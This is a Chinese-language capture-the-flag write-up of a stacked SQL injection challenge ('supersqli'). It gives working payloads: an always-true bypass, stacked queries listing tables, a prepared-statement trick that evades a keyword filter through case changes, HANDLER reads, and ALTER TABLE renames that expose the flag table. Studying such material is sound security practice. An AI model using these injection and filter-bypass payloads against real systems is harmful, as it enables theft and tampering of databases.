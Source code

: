 

# 1.解题过程

> 题目描述是随便注，所以web狗的一套连招先放放，注入无果后再说

![image-20230511085401036](https://raw.githubusercontent.com/lanchuangdexingjian/Blog-libray/main/GFSJ-supersqli/image-20230511085401036.png)

通过`GET`传值传输，试试是否能注入

![image-20230511085534158](https://raw.githubusercontent.com/lanchuangdexingjian/Blog-libray/main/GFSJ-supersqli/image-20230511085534158.png)

> 注入：1'or 1=1#

![image-20230511094518949](https://raw.githubusercontent.com/lanchuangdexingjian/Blog-libray/main/GFSJ-supersqli/image-20230511094518949.png)

注入成功，接下来使用堆叠注入获取表名

> 注入：1';show tables;

![image-20230511095118196](https://raw.githubusercontent.com/lanchuangdexingjian/Blog-libray/main/GFSJ-supersqli/image-20230511095118196.png)

查看第一个表，因为表名是纯数字所以使用反单引号包起来

![image-20230511095612691](https://raw.githubusercontent.com/lanchuangdexingjian/Blog-libray/main/GFSJ-supersqli/image-20230511095612691.png)

发现有设置过滤，show一下表查看列发现flag就再这个表里

![image-20230511095955015](https://raw.githubusercontent.com/lanchuangdexingjian/Blog-libray/main/GFSJ-supersqli/image-20230511095955015.png)

## 三种做法

### 1.预编译绕过

什么是预编译？[参考]:https://www.cnblogs.com/micrari/p/7112781.html

通常我们的一条sql在db接收到最终执行完毕返回可以分为下面三个过程：

1. 词法和语义解析
2. 优化sql语句，制定执行计划
3. 执行并返回结果

我们把这种普通语句称作**Immediate Statements**

但是很多情况，我们的一条sql语句可能会反复执行，或者每次执行的时候只有个别的值不同（比如query的where子句值不同，update的set子句值不同,insert的values值不同）
如果每次都需要经过上面的词法语义解析、语句优化、制定执行计划等，则效率就明显不行了。

所谓预编译语句就是将这类语句中的值用占位符替代，可以视为将sql语句模板化或者说参数化，一般称这类语句叫**Prepared Statements**或者**Parameterized Statements**
预编译语句的优势在于归纳为：**一次编译、多次运行，省去了解析优化等过程；此外预编译语句能防止sql注入**
当然就优化来说，很多时候最优的执行计划不是光靠知道sql语句的模板就能决定了，往往就是需要通过具体值来预估出成本代价

**例如：**

**编译**

我们接下来通过 `PREPARE stmt_name FROM preparable_stm`的语法来预编译一条sql语句

```mysql
mysql> prepare ins from 'insert into t select ?,?';
Query OK, 0 rows affected (0.00 sec)
Statement prepared
```

**执行**

我们通过 `EXECUTE stmt_name [USING @var_name [, @var_name] ...]`的语法来执行预编译语句

```mysql
mysql> set @a=999,@b='hello';
Query OK, 0 rows affected (0.00 sec)

mysql> execute ins using @a,@b;
Query OK, 1 row affected (0.01 sec)
Records: 1  Duplicates: 0  Warnings: 0

mysql> select * from t;
+------+-------+
| a    | b     |
+------+-------+
|  999 | hello |
+------+-------+
1 row in set (0.00 sec)
```

可以看到，数据已经被成功插入表中

**具体做法：**

**编译**

```mysql
set @sql = concat("selec",'t * from `1919810931114514`;');
prepare qwe from @sql;
```

**执行**

```mysql
execute qwe;
```

**payload**

```url
1';set @sql = concat("selec",'t * from `1919810931114514`;');prepare qwe from @sql;execute qwe;
```

![image-20230511103451058](https://raw.githubusercontent.com/lanchuangdexingjian/Blog-libray/main/GFSJ-supersqli/image-20230511103451058.png)

发现`strstr()`对关键字`set`和`prepare`进行了过滤，但是mysql对大小写是不"敏感"的所以使用大小写绕过即可

```url
1';Set @sql = concat("selec",'t * from `1919810931114514`;');Prepare qwe from @sql;execute qwe;
```

![image-20230511103720032](https://raw.githubusercontent.com/lanchuangdexingjian/Blog-libray/main/GFSJ-supersqli/image-20230511103720032.png)

### 2.HANDLER查询

MySQL“自古以来”都有一个神秘的HANDLER命令，而此命令非SQL标准语法，可以降低优化器对于SQL语句的解析与优化开销，从而提升查询性能

**语法**

```mysql
HANDLER tbl_name OPEN [ [AS] alias]
HANDLER tbl_name READ index_name { = | <= | >= | < | > } (value1,value2,…) [ WHERE where_condition ] [LIMIT … ]
HANDLER tbl_name READ index_name { FIRST | NEXT | PREV | LAST } [ WHERE where_condition ] [LIMIT … ]
HANDLER tbl_name READ { FIRST | NEXT } [ WHERE where_condition ] [LIMIT … ]
HANDLER tbl_name CLOSE
```

**payload**

```url
1';handler `1919810931114514` open;handler `1919810931114514` read first;
```

![image-20230511104324565](https://raw.githubusercontent.com/lanchuangdexingjian/Blog-libray/main/GFSJ-supersqli/image-20230511104324565.png)

### 3.修改表名

> 并不推荐这种解法
>
> 毕竟需要修改题目的数据，一旦失误题目就可能解不开了
>
> 平时做题还好，可以重开环境
>
> **万一是比赛遇到了最后再考略这种解法**

还记得除了flag的表之外还有一个`words`表

show一下这个表的列

> 注入：1';show columns from words;

![image-20230511104633878](https://raw.githubusercontent.com/lanchuangdexingjian/Blog-libray/main/GFSJ-supersqli/image-20230511104633878.png)

可以发现这个表就是输入1时输出的数据所在表

所以将`1919810931114514`表的名字改为`words`就可以获取flag了

**具体做法：**

将`words`表名改为`words1`

```mysql
alter table words rename to words1;
```

将`1919810931114514`表名改为`words`

```mysql
alter table `1919810931114514` rename to words;
```

现在改后的`words`表中没有id字段，php中设置的sql语句就会报错，把flag字段改为id即可

```mysql
alter table words change flag id varchar(100);
```

**payload**

```url
1';alter table words rename to words1;alter table `1919810931114514` rename to words;alter table words change flag id varchar(100);
```

```url
1'or 1=1;
```



![image-20230511110309299](https://raw.githubusercontent.com/lanchuangdexingjian/Blog-libray/main/GFSJ-supersqli/image-20230511110309299.png)

# 2.总结

之前做过类似的题目，并没有使用过预编译的做法

这次又接触到了一种解题方式，后续会继续了解

